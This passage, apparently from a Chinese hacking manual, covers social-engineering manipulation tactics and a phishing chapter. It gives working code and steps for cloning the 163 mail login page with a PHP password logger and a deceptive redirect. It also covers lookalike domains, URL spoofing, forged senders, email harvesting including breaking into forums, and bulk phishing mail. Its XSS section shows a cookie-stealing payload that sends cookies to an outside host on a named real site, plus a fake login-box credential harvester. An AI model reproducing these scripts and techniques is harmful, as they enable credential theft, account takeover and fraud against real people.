寻找相似点很简单，在前提的个人调查材料上，找到他的兴趣爱好；喜欢怎样的运动、音乐，以此作为“相似点”成为交谈话题。

- 3. **与他保持一致**

通常，人们受潜意识的影响，会喜欢一个“看起来一致的人”。因为保持一致能产生信任，有了信任，后续的交谈与索要信息将变得更加顺利。谈话过程很可能会因为谈话双方彼此的“同步”，变得更积极自在些。如果我们和对方的手势或者讲话时的“遣词造句”一样，他会觉得你很可爱。

动作、姿态一致：例如，他一只手插在口袋里，那么你也依样画葫芦，把你的一只手也放口袋里，但不要过于明显。

讲话一致：讲话时尽量和他保持一样的速率。他讲得慢、语调平缓，那么你也慢、语调也平缓；要是他讲得快，那么你也讲快些。

- 4. **让对方产生好的感觉**

你让他产生了什么样的感觉？他对你的感受，在很大程度上取决于这一点。这不是让你花空心思讨他欢心，让他感觉你很棒，而是你让他产生了怎样的感觉。当你和一个懂得赞美、真诚亲切、温暖热情的人在一起的时候，你的感觉会很好。那么如何做呢？

使用正面的词语：例如，高兴、快乐、感觉很棒。千万不要使用难过、痛苦、悲伤等负面词语。

表现正面的情绪：例如，很惊讶的表情、爽朗的笑脸，只要是正面的情绪即可，但不能对谈论的事流露出失望、发呆的表情。

### 五、让第三方传递正面印象

你一定有过这样的经验，无意中从报纸看到某人对一部电影负面的评价，那么下次便会影响你正常的观影视看法；再如，你的朋友向你说起一个人是如何俊秀，那么下次碰到这个人的时候，你就会从好的角度认识他。

是的，往往通过第三方传递的信息也能达到成功的第一印象认识，它对正面与负面的人都适用。最好的方式是：做自我介绍时最好先递上个人名片。

接触一个人的开始，第一印象很重要。依据“首因效应”的过程：我们对一个人形成的第一印象，影响到我们对这个人后来行为的理解；理解的方式与第一印象保持一致。也就是说，我们关于某人的第一印象非常具有决定性，因为我们后来所看见的、听到的每件事都会受到最初评价的过滤；如果你在他面前形成了讨人喜欢的第一印象，那么后面的事情就更好办了。

#### 5.5.2 “让‘帮助’来得猛烈点吧”

严格地说，是让信息拥有者给我们想要的信息来“帮助”我们，或者暗中被我们引导去做某件泄密的操作。无论社会工程师做某种信息刺探，但最终基本都需要机构（企业）内部人员的协助，安全隐患正是从这里开始。

### 一、互惠原则

冒称虚假的身份是大多数社会工程师的伎俩，但他们有的是使用虚假的身份“帮助”信息拥有者，为什么要这样做呢？如果你友好地帮助一个人弄好网络故障，也许这个人心里就会忐忑不安，他会感觉欠了你的人情。因此，在你需要“帮助”的时候，他们大多数会不加怀疑地帮助你，以此补平人情。

但有一点别搞混了，“互惠原则”不是物质间的交换，而是以“帮助解决问题”为基准，否则，对方将会质疑你的目的，拒绝你。

### 二、掌握好你的问题

为什么这样说呢？如果提出请求帮助的“问题”很愚蠢，他们很可能不会帮助你。简单说，你提出的问题是源于自己的无知、无能，那么对方对你是无情的了。例如，人们热衷于帮助受伤的动物，但对大街上的流浪者都很漠然，这是因为他们认为那些流浪者要么是吸毒，要么便是酗酒的原因导致的。

所以，你提出的问题不能无知，而且必须让对方认为只有他自己才能帮助你解决。怎么说呢？你打电话让公司某个员工从复印机传送一份文件，这位员工可能会这样想，复印机旁边不是有很多员工吗？你为什么偏偏找我呢？你得打消对方这样的想法，拿捏好问题的关键字，给出适当、具体的理由，说明只有他才能帮助你。

### 三、相似唤醒

简单点说，人们更倾向于帮助那些和自己相似的人。这不仅表现在性格上的相似，更表现在处境上的相似，如内部同事。更重要的是，人们一般都对内部人员不会怀疑，给予充分的信任。

这是一个好方法，曾经遭受过雪灾的人会对有相同境遇的人同情、给予帮助，产生心理共鸣。正如前文所提，我喜欢你，一定是我和你有相似的地方。

### 四、惯性定律

牛顿惯性定律告诉我们：物体，动者恒动，静者恒静。我们可以修改下：人者，动者恒动；静者恒静。假如你能拨动（不管是生理层面还是心理层面的）一个人，让他朝某个正确的方向迈进的话——当然，你可以先从简单、有趣的事物开始——那么，他就很可能会一直按照这个方向“运行”下去。

为什么会这样呢？因为人类有“行为一致性”的强烈需求。该领域的数项研究均清楚地显示：运用该心理因素激发人们动机的时候，是多么地有效！研究表明，当某人答应了一个小的请求、帮了趟小忙之后，极有可能再答应一个更大的请求。这个更大的忙，才是我们真正想让他帮的。这里用的便是“登门槛策略”，如果你跟某公司 HR 经理说：“能给我一分钟吗？”，若对方回答“是”，很可能你可以提出更大的要求。

### 五、威胁恫吓

还记得“马斯洛需求层次理论”吗？最低层是生存的需求，当某方面威胁到这些生存需求，他们会失去理智而将公司的规章与制度抛于脑后，按照攻击者的要求完成“帮助”。事实上，大多数攻击者的恫吓都是胡编乱造的，例如，有的网络钓鱼邮件在正文中出现恫吓信息，也就是通常编出信用卡出现问题。而真正的威胁恫吓并不会发生，但会引发目标的心理恐惧。

### 六、价值展现

积极向目标展示高端价值，在商业社交更着重于这一点，你的身份角色决定了他们对你能力的看法与态度。例如，递名片就是展示个人价值。社会工程师冒称权威身份也是为了展现高价值，人们往往对高价值的人的态度有异于普通人，包括顺从与被引导。

## 第六章 网络钓鱼攻击

- 钓信用卡、钓隐私：恐怖的钓鱼攻击
- 钓鱼：盯上 163 邮箱
- 真网址 PK 假网址
- 电子邮件钓鱼
- XSS 跨站钓鱼也疯狂
- 劫持中的钓鱼艺术
- 将钓鱼攻击发挥到极致
- 新式钓鱼攻击手段
- 案例攻击与应用——将 MM 杀回匿名 QQ

### 6.1 钓鱼陷阱、钓隐私：恐怖的钓鱼攻击

网络钓鱼事件在 2007 年以递增的速度发展，若读者们仔细留意的话，是很少在国内安全杂志找到详细实例描述的，因为这是一种危害极大的攻击方式。

初学者一定很好奇网络钓鱼（Phishing）是什么，千万不要误以为是春天的时候拿着一根鱼竿，在阴凉的地方钓鱼娱乐。Phishing 一词用来描述网络钓鱼概念，它是“Fishing”和“Phone”的综合。由于 70 年代的最初黑客起源于盗打电话，所以用“Ph”取代了“F”，创造了“Phishing”。Phishing 的发音也与 Fishing 相近。

网络钓鱼攻击者首先精心构造一个看上去是合法可信的网站与电子邮件，然后编出一个可信理由与原因来告诉你：你需要登录更新你的密码信息。如果你照做了，那么你就成了攻击者手中的“鱼”。这种就是典型的网络钓鱼攻击方式，这里的鱼饵就是欺骗性的电子邮件与伪造的 Web 站点。攻击者为了扩大攻击范围，会利用邮件、IM 即时通讯工具批量群发这些欺骗性信息，甚至会通过使用高级黑客手段（蠕虫式感染等）来进行。

美国系统网络安全协会（SANS）发布过 2007 年 20 大互联网安全威胁，钓鱼式攻击榜上有名；同样，McAfee 发布的 2007 年度十大安全威胁名单中，网络钓鱼攻击位居第一，而且其势头并无衰减迹象。读者朋友们一定很好奇：这种现象怎么这么流行？因为，钓鱼攻击能带来庞大的经济效益，在线拍卖网站、在线支付处理器或在线银行都是钓鱼者的首要攻击对象。截至目前为止，国内网络交易中，不论股票处理还是网上银行，仍然存在大量的钓鱼式漏洞。

钓鱼者是怎样攻击的呢？我们应该怎样防范这种攻击呢？不要紧，现在我们来个亲密接触吧！Let’s go!

### 6.2 钓鱼：盯上 163 邮箱

通常攻击者为了保证钓的鱼更多、更有质量，他们设定的钓鱼对象是访问量过高的站点以及金融交易（网银、购物）站点。接下来我将分几个步骤演示 163 邮箱钓鱼攻击。大家一定会有疑问：163 邮箱能有多少鱼？为什么不在 QQ 网站或者银行网站钓鱼？呵呵，相比之下，163 邮箱更能让读者们快速入门。

#### 6.2.1 将 163 邮箱整站扒下来

为了使伪造的网站达到逼真的程度，需要将真实网站的素材搞到手并进行改造处理。首先把相关的网站文件下载到本地。注意：常规情况下直接使用 IE 浏览器来保存门户网站会出错，这里要用到一个工具——网站整站下载器；它的原理是分析网页中的所有链接（图片链接、脚本与样式表链接等），并将网站的内部链接文件下载、分类，使之还原网站整个结构。打开网站整站下载器，点击“项目”菜单，选择“添加开始网址”，在弹出的对话框的网址处填写：http://mail.163.com，其他保持默认选择，最后点击“确定”，如图 1 所示。

程序返回了主界面，我们点击中间工具栏的三角形按钮开始下载，接着会弹出一个“另存为”对话框，我们选择一个目录保存即可，如图 2 所示。

不到一会儿，163 邮箱网站文件下载完毕。现在我把网站文件上传到 FTP 空间里，来对比一下……瞧！完全是一个模子出来的，如图 3 所示。

#### 6.2.2 继续完善“让伪造生效”

为了让用户打开伪冒网站时不会发现破绽，我们要检查一下网页的内容。网站整站下载器有个不足，那就是对于外部的链接它一律都换成了一段脚本代码：`javascript:if(confirm*****`，我们只要去掉并替换成原来的链接地址即可。如果有图片没有显示，可以手工下载到本地后再修改链接即可。

现在要修改的一个关键是：如何将用户输入的信息保存起来。由于空间只支持 PHP，所以我以 PHP 脚本来实现；当然，读者也可以用 ASP、JSP 脚本语言实现。用记事本打开 index.html（即下载的网易 163 邮箱首页文件），我们需要把这段验证脚本去掉：

```javascript
var at1 = user.value.indexOf("@")
if(at1 != -1 ){
    user.value = user.value.substring(0, at1)
}
var secure = fm.remUser.checked ? true : false
var url = fm.secure.checked ? "https://reg.163.com/logins.jsp" : "http://reg.163.com/login.jsp"
url += "?type=1&url=http://fm163.163.com/coremail/fcg/ntesdoor2"
url += "|lightweight%3D1%26verifycookie%3D1%26"
if(secure){
    user.autocomplete="on"
}else{
    user.autocomplete="off"
}
if(GetVersion(fm))
fm.action = url + "language%3D-1%26style%3D" + fm.style.value
visitordata.setVals([fm.username.value, fm.style.value, fm.secure.checked?1:0 ], fm.remUser.checked?true:false )
visitordata.store();
```

接着再更改一下表单提交方式，把 index.html 中的：

`<form method="post" name="login163" action="" onsubmit="return fLoginFormSubmit();" target="_top" style="position:relative">`

代码替换成：

`<form method="post" action="checklogin.php">`

意思是以 post 方式提交数据到 checklogin.php。checklogin.php 在哪里呢？这需要我们来建立。打开记事本新建一个文件，插入如下 PHP 脚本，保存为 checklogin.php。

```php
<?php
/* 写入 */
if($_POST['登录邮箱']){
    $fp=fopen("db.txt","a");
    fwrite($fp,$_POST['username']."|".$_POST['password']."\r\n"); // 写入数据，中间用 | 隔开
    fclose($fp);
}
/* 读取：可以通过iis防火页 */
$lines=file("db.txt");
print("<pre>");
print_r($lines);
/* 删除 */
?>
```

这段脚本的功能是取得用户输入的用户名与密码信息，然后写入到 db.txt 文本文件中。代码修改完成后就将文件上传到支持 PHP 的空间里。好啦，一切准备妥当；我们来试试吧！打开网页 http://www.xhonker.com/mail/，在登录信息中分别输入用户名 **lizaib** 和密码 **nohack**，然后回车……噢！居然返回空白？呵呵，其实登录信息已经保存了，如图 4 所示。

#### 6.2.3 逃脱识别，进阶伪装

现在我们已经做出了一个典型的钓鱼网站，细心的读者会发现，当点击“登录”按钮时，页面返回了空白，这让人看起来就很怀疑。接下来就是我们的伪装手段喽！

##### 6.2.3.1 使用 header() 函数跳转到真实的 163 邮箱网站

header() 是 PHP 的一个功能函数，主要是告诉浏览器怎样处理这个页面。我们可以利用 header() 函数让用户提交表单后跳到真实的 163 邮箱。

打开 checklogin.php 文件，在最后的一行 `?>` 前面增加一段空行，插入 header() 重定向到 163 的代码：`header("Location:http://mail.163.com");`，这样，当访问并提交表单后就跳到真实的 163 邮箱网站了。

##### 6.2.3.2 用 JavaScript 增加迷惑性

虽然我们已经可以跳到真实的 163 邮箱网站，但在使用第一种伪装时，受害者在提交表单后没有任何提示就直接定向到了真实网站，这会让对方感到怀疑，所以要给用户一个出错提示，增加迷惑性。我们只需要将下列脚本插入到 checklogin.php 文件的最后即可。

```html
<script language="javascript">
<!--
window.location="http://mail.163.com/";
//-->
alert("对不起，系统忙，请稍候登录")
</script>
```

当用户提交表单后，会弹出一个对话框，如图 5 所示，点击“确定”后将跳转到真实的 163 邮箱网站，用户相信这个提示后，这个迷惑就生效了。

##### 6.2.3.3 逼真一点，神不知鬼不觉

让用户一点也不怀疑的方法是成功登录到真实 163 邮箱网站，并且我们暗中记下了用户的登录信息。我们可以将表单提交到两个 action 进行处理，第一个 action 是提交到真实网站登录，另一个 action 暗中提交到我们的 checklogin.php 中。

### 6.3 真假难辨 PK 假网址

这部分是钓鱼攻击的关键，可以毫不怀疑地说，伪造网址能起到钓鱼攻击百分之五十的作用。人们点击网址时，在大脑中会将网址的某几个字符与网站主题特征进行相似性对比，但没有进行实质性的怀疑。

举例来说，baidu.com 与 baidu.co 两个网址，大多数的人直接注意 baidu 关键字，而忽略了其后的域名后缀。还有的便是利用大脑的形象化思维，例如 SOHU.COM 与 S0HU.COM，这里巧妙利用了数字 0 与字母 O 的相似进行迷惑。读者朋友们一定想，这似乎很简单嘛！真的吗？接下来一品网址欺骗之道。

#### 6.3.1 假域名注册欺骗

域名欺骗的好处是增加可信度，对于金融站点钓鱼攻击时，伪造一个假域名是首要的。有三种注册假域名的方式，也可以说是三种域名欺骗，它们分别是：二级解析、一级域名、域名后缀，如图 6 所示。

**二级解析欺骗**：它主要针对拥有二级域名的网址欺骗，如图 6 中网址 http://blog.sohu.com 的二级域名是 blog。大多数的门户站都有二级解析，如博客、邮箱、新闻等频道。然而我们不可以直接注册 http://blog.sohu.com，而是需要注册 http://www.sohu.com 域名后，域名提供商才提供二级域名解析，即 blog.sohu.com。

显然我们没有几百万去注册 sohu.com 域名；但我们可以注册这样的域名：http://www.s0hu.com，并且让域名提供商提供二级 blog 解析，即 http://blog.s0hu.com。

**一级域名**：主要针对一级域名欺骗，像上面一样，我们注册一个假冒的 http://www.s0hu.com，这里用数字 0 替换掉了字母 O。

**域名后缀**：即利用网址最后的域名后缀。域名后缀有很多，常见的有 com、net、org、cn 等。我们可以对 http://www.sohu.com 来个偷龙转凤，注册一个后缀为 co 的域名 http://www.sohu.co，这样，麻痹大意的用户谁会注意到呢？

#### 6.3.2 状态栏中的网址欺骗

有时，我们会碰到一个细心的人，他打开网址时会检查网页状态栏是否显示为真实的网址，难道网址欺骗就此终结？不！我们仍能欺骗！请看下面的代码，我们保存为 fakeurl.html。

```html
<p><a id="SPOOF" href="http://www.nohack.cn/">...</a></p>
<div>
<a href="http://www.xh0nre.com" target="_blank">
<table>
<caption>
<label for="SPOOF">
<td style="cursor:pointer;color:blue">
```

## 第六章 网络钓鱼攻击

```
http://www.xhonker.com
</u>
</label>
</caption>
</table>
</a>
</div>
```

接着我们打开 fakeurl.html，并将鼠标移动到网址上，我们能看到状态栏的链接与网页内容的链接是相同的，看上去很正常。用户认为打开的是 http://www.xhonker.com 站点，然而点击时结果并非如此，打开的却是《黑客手册》网站 http://www.nohack.cn，如图7。


### 6.3.3 巧妙利用URL参数的浏览器

有些读者朋友一定使用过FTP空间吧？有的直接利用IE浏览器输入FTP账户/密码/地址，再回车即可登录，这个过程由URL统一资源定位器（Uniform Resource Locators）完成；它在RFC1738中是这样的规定，如图8所示。


在图8中，只有“@”后的〈host〉是必需的，即主机名。当IE试图解析类似于 http://www.xhonker.com@nohack.cn 的网址时，它会直接访问“@”后的网站。例如在下面的图9中，当我们按回车键访问时，打开的不是 xhonker.com，而是打开了“@”后的《黑客手册》网站。


### 6.3.4 IP转换与URL编码

IP转换实际上是数值之间的进制转换，我们知道IP是由十进制数组成的，并且IP与域名是对应的，使用IP也能访问网站。如果我们把十进制的IP转换成八进制与十六进制呢？普通用户看到的将是一段无意义的数字，一般不会怀疑。具体怎么操作呢？你可以使用Windows自带的科学计算器转换进制，这里直接使用一个傻瓜工具——终极URL进行操作；我们以 baidu.com 为例进行演示。

通过在 cmd 下使用 ping 命令获得 baidu.com 对应的IP地址是 220.181.6.6；然后打开工具，在IP转换栏下分别填入IP地址，如图10所示。

接着点击“加密”按钮，因为我选的是十进制IP地址转换，转换后的IP是 http://3702851078/，使用IE浏览器打开后依然是百度站点，如图11所示。


图10

图11

当然，你还可以使用八进制与十六进制转换。接着再来介绍URL编码，URL编码是字符的ASCII码的十六进制状态，并在字符前加上“%”符号。例如0的16进制ASCII码是30，URL编码后结果是 %30。这里我们仍然使用终极URL工具进行演示，在工具界面的“URL加密”栏下的“待加密URL”处输入 www.nohack.cn，并点击“加密”按钮，相应的URL编码是：http://%77%77%77%2E%6E%6F%68%61%63%6B%2E%63%6E/；如图12所示。接着我们再访问加密后的URL，可以看到能正常打开《黑客手册》站点。


图12

## 电子邮件钓鱼

邮件式钓鱼攻击是网站钓鱼的衍生物，它起了一个高效率利用、扩大战场的作用。电子邮件在社会的渗透是无处不在的，未来10年中，人们仍然要依赖它进行信息传输。除此之外，它还充当了中间人的角色，比如你在某个站点注册时会被要求邮件验证，网络运营商搞活动时会发送邮件提醒，金融行业（银行、交易所）允许你使用邮件存款、消费；当你遗忘密码时，电子邮件起到恢复密码的作用……但由于它自身协议的缺陷和特性，引发钓鱼攻击的概率很大。

#### 6.4.1 钓鱼关键点：制造一封神秘的邮件

网络钓鱼的存活期平均是15天，如何让攻击达到数百次呢？施放的鱼饵便是关键。影响存活期的因素在于技术上实现的隐蔽性、针对性、操作性，影响因素越小，存活性就会越长。假设10封邮件中，有5个用户会查看，3个用户会打开邮件中的钓鱼站点，显然这不是钓鱼者的预期目标，我们来讨论下如何实现82%的查看率。

成功的钓鱼者不会盲目、任意地寻找攻击目标，而是有计划有步骤地对不同的用户群进行分类，如针对型、广谱型等等。针对型即针对用户年龄范围、职业范围、兴趣范围等进行攻击；广谱型即普遍适合的用户群。

针对型有何特点呢？当你拥有 PayPal（eBay公司旗下的跨平台在线支付平台）账户时，攻击者会以 eBay 公司身份给你发送钓鱼邮件，而且邮件中会标有你的 PayPal 账户名，而对于没有 PayPal 账户的人不会发送。

那么广谱型呢？那就与传统的直接盲目发送邮件很相似，但实质性的内容却不同，我们将在下面讨论如何实现60%的邮件链接点击率。

人们第一次对陌生女孩有好感时，我相信那是外貌所致。同样，邮件的内容是否吸引人，其标题就是关键。

那么如何完成一份标准的钓鱼邮件呢？

- A、套用标准邮件格式（如果有的话，可套用被欺骗企业常用的邮件格式）
- B、邮件传达明确的意思（如注册验证、系统升级、账户更新等等）
- C、使用专业工具处理邮件（如Photoshop CS、网页制作三剑客等）
- D、伪造企业信息和认证标志（即企业的标志，如百度网站首页的logo图像）

图13是一份标准的PayPal广谱型钓鱼邮件，它采用了图文混排方式，从而显得专业化。邮件主题明了，写明是为了“保护PayPal的账户安全，请受害者更新账户信息”。

处理的过程使用了专业化图形工具Photoshop CS处理图片，以及网页工具Macromedia Dreamweaver进行格式排版，再生成HTML代码插入邮件内容进行发送。当受害者点击网页中的链接，输入账户密码信息并提交时，会弹出一个对话框：“您的信息更新成功！”，让被欺骗的用户感觉很“心满意足”。


接着再看看广谱型钓鱼邮件，它的好处就在于你可以批量发送给任何人，缺点是不能保证超过半数的人会去点击，关键是看邮件内容是否引起他们的好奇心或注意力。这就要求对邮件内容及主题花上一番心思，并且邮件内容是大众所关心的话题。

如何做到呢？网络搜索引擎提供了一个“热门搜索”功能，例如百度就有“搜索风云榜”，地址是 http://www.baidu.com/2007/，如图14所示。

聪明的读者朋友一定想到了，利用热门搜索的话题作为钓鱼攻击的诱饵。例如我们可以利用“嫦娥一号最新太空截图”作为钓鱼内容主题，在邮件中，我们再将受害者引导至钓鱼站点。


图14

#### 6.4.2 伪造发件人地址

有一天，你最好的朋友给你发邮件，你发现邮件地址也确实是朋友的，他说想换一款新手机 Nokia 8580，但信用卡上没有足够的钱支付，他需要你转账帮助，并且放上了在线银行的网址。作为朋友的你也许会因为友情而去帮助他，但谁知道呢，你的网银账户此刻就有可能被窃取。

伪造邮件的实质是建立SMTP服务器，使用代理并伪造邮件头发送欺骗性邮件。现在我们伪造 Nohack@nohack.cn 邮件地址给 lizaib@sina.com 发一个邮件吧，这需要用到一个小工具 FastMail，它内建了SMTP服务器，允许我们伪造邮件地址发送欺骗性邮件。

打开FastMail后按照图15中设置即可，然后点击“发送”就OK！

接着我们打开新浪邮箱，在收件箱中正好躺着伪造的 Nohack@nohack.cn 发来的邮件，打开邮件后我们可以看到伪造邮件的效果，如图16所示。


图15

图16

### 6.4.3 弹指间，百万E-mail地址被收集

邮件地址的收集分为两种：针对型收集与广谱型收集。针对型指针对讨论某一话题的论坛与社区类站点进行E-mail地址收集，我们来演示如何对百度搜索引擎站点进行整站E-mail地址收集。这需要用到 Super Mail Extractor 工具进行全自动化收集，手工的话，是个体力活。

安装 Super Email Extractor 后并打开，在工具栏下的“Search engine directories URL”先填入百度网址 http://www.baidu.com，并点击工具栏第一个“Start”按钮进行搜索，搜索后的结果如图17所示。


图17

搜索完成后点击工具栏的“Export Search Results”按钮对结果进行保存。如果是论坛的话，可以直接入侵论坛，获取MySQL数据库账户以及下载Access数据库，并从用户注册信息中整理出E-mail列表即可。图18所示的就是入侵论坛后下载数据库，并使用Microsoft Office Access打开数据库找到E-mail地址列表。


图18

当然，还有更简单的方法，那就是直接联系心存邪念的站长，他们会直接出售数据库给你。如果是任意、随机寻找邮件地址进行广撒型钓鱼，Google搜索引擎是一个不错的帮凶，我们可以使用“Google邮件搜索工具”来进行大范围的邮件地址收集。如果你的Google搜索语法精准，那么结果更丰富。

打开工具后导入 search.txt 文本文件，其中 search.txt 里保存了搜索语法，可自行增加。然后点击“搜索”按钮即可，搜索效果如图19所示。


图19

#### 6.4.4 坐等鱼上钩——钓鱼邮件群发

在图17中我们收集了很多百度邮箱地址，那么多的邮件不可能一个个手工发送，还是选择一个工具软件吧，“白银钓杆”这款软件可以实现群发邮件的功能。将你收集整理好的邮件地址使用记事本保存为 Dictionary.txt，并放到程序目录下，然后按照图20所示进行设置并发送。


图20

这种功能很容易实现，网上有很多的邮件群发工具，这就是导致中国成为全球第二大垃圾邮件发送国的原因。

> **小提示：** 用网页制作工具Dreamweaver处理完钓鱼邮件格式后，将代码模式的HTML代码复制粘贴到“白银钓杆”软件中的邮件正文即可。当然，在网上还有很多的在线式邮件伪造服务，通常使用代理作为中国人发送。

## 6.5 XSS跨站钓鱼超疯狂

XSS又叫CSS（Cross Site Script），跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意HTML代码，当用户浏览该页时，嵌入Web里面的HTML代码会被执行，从而达到恶意用户的特殊目的。

常规的XSS攻击有哪些呢？Cookie窃取、强制恶意挂马、伪造JS模拟表单提交……只要你能想到的攻击方式，都可以放到一个JS文件中进行攻击。

国外安全组织公布的2007年十大Web安全漏洞中，XSS攻击位居首位，国外甚至有专门的XSS站点（http://www.xssed.com）。这一切无不说明XSS的严重影响程度。如果利用XSS进行钓鱼攻击，效果如何呢？我可以肯定地告诉你，这是一种杀人不见影的攻击！现在就让我们走近XSS跨站钓鱼吧！

### 6.5.1 深入浅出解析XSS漏洞形成

比尔·盖茨曾经就安全编程对他的员工说了一句非常经典的话：“All input is invalid.”（所有的用户输入都是有害的。）

XSS漏洞是怎样形成的呢？通常是表单提交的变量过滤不严导致形成跨站攻击。下面以一个过滤不严的PHP表单脚本进行说明，请看代码：

```html
<html>
<body>
<form action="" method="GET">
<!-- 以 GET 方式提交表单到自身 -->
Script: <input name="name" type="name">
<input type="submit" value="提交">
</form>
</body>
</html>

<?php
$name = $_GET['name'];
// 将 name 的值保存到 $name 变量中，注意，变量未作过滤
echo("Hello $name");
// 打印 $name 变量值
?>
```

将上面代码保存为 xss.php，并放到PHP环境中（可用phpStudy搭建），然后打开 http://localhost/xss.php，在输入框中输入跨站代码 `<script>alert(/nohack xss/)</script>`，再点击“提交”按钮，这时便弹出一个对话框，说明跨站成功了，如图21所示。


标准的跨站语句是 `<script>alert("xss")</script>`，由于高版本的PHP配置文件使 `magic_quotes_gpc=on`，此刻会将一些符号进行转义，如将双引号转义成反斜线，所以我们可以使用反斜线代替双引号，这并不会影响到跨站执行。在其他动态语言中（ASP、CGI等），也会出现由于变量没有过滤而导致跨站漏洞出现的情况。

现在大家可能不以为然，弹出个框能有什么用呢？真的吗？下面我们将构造恶意的脚本让用户中招。

### 6.5.2 隐藏字的Cookie窃取

的脚本 `"><script>alert(document.cookie)</script>` 并确定，如图22所示。

**注意**：代码前的 `">` 主要用来闭合表单里的双引号。


图22

确定后再次点击“修改个人信息”功能，这时我们会发现弹出一个Cookie对话框，如图23所示。


图23

现在大家都会基本的Cookie窃取了吧？接着我们再来一次自动批量的Cookie窃取，只要用户访问我们给出的Cookie窃取脚本，均会隐藏地将Cookie记录。我们以“凤凰网”的商城首页 `http://mall.ifeng.com/search.jsp` 来演示，因为它的商品搜索没有过滤非法字符。

在此之前需要使用一个PHP脚本来接收Cookie信息，具体代码如下：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("./log.txt", "a+");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

将以上代码编辑到记事本中并保存为 cookie.php 文件，放到支持PHP空间的环境中。我放在空间的位置是 `http://www.xhonker.com/cookie.php`，接着构造如下窃取Cookie的脚本：

```html
"><script>document.location="http://www.xhonker.com/cookie/cookie.php?cookie="+document.cookie;</script>
```

OK！现在需要抓包工具 Winsock Expert 对商城首页的搜索数据进行抓包，这样来获取提交参数。点击 Winsock Expert 工具栏第一个“打开”按钮，选中 IEXPLORE.EXE 进程下有关“凤凰网”页面的数据进行监听。

回到IE，从“凤凰网”的商城首页搜索栏输入“nohack”进行搜索，切换回 Winsock Expert 时，我们可以看到提交方式，如图2.4所示。


图2.4

选中POST那一栏，我们会在主界面下方看到 **searchwordi=nohack&categoryi=W1**，那么完整的URL提交就是：

```text
http://mall.ifeng.com/search.jsp?searchwordi=nohack&categoryi=W1
```

现在我们只要把URL中的 nohack 替换成前面的跨站脚本就搞定啦！完整的URL是：

```text
http://mall.ifeng.com/search.jsp?searchwordi="><script>document.location='http://www.xhonker.com/cookie/cookie.php?cookie='+document.cookie;</script>&categoryi=W1
```

在这里，我建议大家进行符号编码，比如“<”号的Unicode编码为 %3C。下面的数据是经过编码后的URL，直接放到IE中打开提交即可：

```text
http://mall.ifeng.com/search.jsp?searchwordi=searchwordi=%22%3E%3Cscript%3Edocument.location%3D%27http%3A%2F%2Fwww.xhonker.com%2Fcookie%2Fcookie.php%3Fcookie%3D%27%2Bdocument.cookie%3B%3C%2Fscript%3E%26categoryi%3DW1&categoryi=W1
```

成功后会在PHP空间里生成一个保存了Cookie的 log.txt 文件，打开后就能看到提交的数据，如图2.5所示。


图2.5

现在我们只要把窃取Cookie的网址以凤凰网的身份来伪造一封欺骗信件并发给网站用户，一旦他们点击邮件中的链接，均会窃取他们的Cookie。

### 6.5.3 伪装网的登录框——XSS的另类钓鱼术

上面一小节演示的Cookie窃取比较简单，但会把用户带到另一个页面，这会让人生疑。

当然，读者朋友们可以使用更加高级的方法进行窃取，比如重定向、Ajax 强制跳转等。因本书主要面向初级读者，具体就不作深究啦！

Cookie 窃取讲完了，我们再看看极具迷惑性的 XSS 另类钓鱼。当用户访问我们的链接时会弹出一个系统登录框，注意哦，这能骗过大部分人，一般他们都会再次输入网站登录密码，不会察觉到密码被偷偷保存在另一个地方了。

现在我们以“亿聚网”的用户信息跨站漏洞实现这一功能，首先打开记事本，编辑以下 PHP 代码（代码并非我原创，得益于朋友“伤心的鱼”从俄罗斯黑客网站的收集）：

```php
<?php
header("Content-type: image/gif");
$image = imagecreatefromgif("mellow.gif");
if (!$_COOKIE['LOGON']) {
    $login = $_SERVER['PHP_AUTH_USER'];
    $pass = $_SERVER['PHP_AUTH_PW'];
    if (strlen($pass) <= 4 || !$login) {
        Header("HTTP/1.1 401 Unauthorized");
        Header("WWW-Authenticate: Basic realm=\"亿聚网用户验证---login\"");
    } elseif ($login) {
        setcookie("LOGON", md5($pass));
        $f = fopen("passwords.txt", "a+");
        fwrite($f, "$login:|$pass:\r\n");
        fclose($f);
    }
}
Imagegif($image);
Imagedestroy($image);
?>
```

将代码保存为 login.php 文件，它的作用是伪造一个登录框，以获取用户输入的登录信息，并将其保存到 passwords.txt 文件中。

接着准备一个 GIF 图像，重命名为 mellow.gif，然后再将 login.php 与 mellow.gif 放到你的 PHP 空间上，这里我就放在本地进行测试了。OK！前提工作弄好了，大家也知道挂马吧？同样，我们需要用到框架语句 iframe，完整的代码是这样的：

```html
<iframe src="http://localhost/login.php"></iframe>
```

接着在“亿聚网”注册二个用户，然后编辑自己的联系信息。我随便在一个输入框中插入框架钓鱼代码，然后确定，如图 2.6 所示。


## 第六章 网络钓鱼攻击

现在转到“我的主页”会怎样呢？呵呵，任何访问我主页的人都会看到一个登录框，一旦进行登录操作均会被窃取密码。图 2.7 是我的测试效果，嘿！成功了吧！


图 2.7

“亿聚网”是校园交友平台，想加对方为好友时通常都会打开对方的个人主页，这就意味着我们只要批量向用户发送邀请，他们均会访问我们的主页，并中钓鱼攻击。

## 劫持型钓鱼终结者

劫持，可以说是入侵中的中间人攻击，对合法的网络通信进行中间干预，典型的方式是让受害者访问攻击者伪造的数据，以此对用户的网络通信进行劫持。

同时，它是钓鱼攻击中高级技术的应用，如 DNS 劫持。一旦取得目标域名的解析记录控制权，就可以修改此域名的解析结果，将域名原先 IP 地址转到攻击者指定的 IP 上。这样，不管你是否输入了正确的网址，都会撞进钓鱼者设置的陷阱之中。

不管如何，劫持钓鱼式攻击是防不胜防的，这是如何做到的呢？我们又该如何保护自己免遭劫持呢？那就来关注这一小节吧！

#### 6.6.1 Hosts 文件的映射劫持

越来越多的病毒与流氓软件为了对抗安全防护软件，都使用 Hosts 文件来劫持用户，禁止访问安全站点。比如，一旦劫持了瑞星杀毒网站，用户访问的将是陌生站点与病毒站点等。

Hosts 是系统里 `C:\WINDOWS\system32\drivers\etc` 目录下的一个无扩展名文件，钓鱼者想劫持的话首先得用记事本修改这个文件的内容。这个文件是根据 TCP/IP for Windows 的标准来工作的，它的作用是定义 IP 地址和主机名的映射关系，是一个映射 IP 地址和主机名的规定。

这个规定中，要求每段只能包括一个映射关系，也就是一个 IP 地址和一个与之有映射关系的主机名。IP 地址要放在每段的最前面，映射的主机名在 IP 后面，中间用空格分隔，形式如图 2.8 所示。


图 2.8

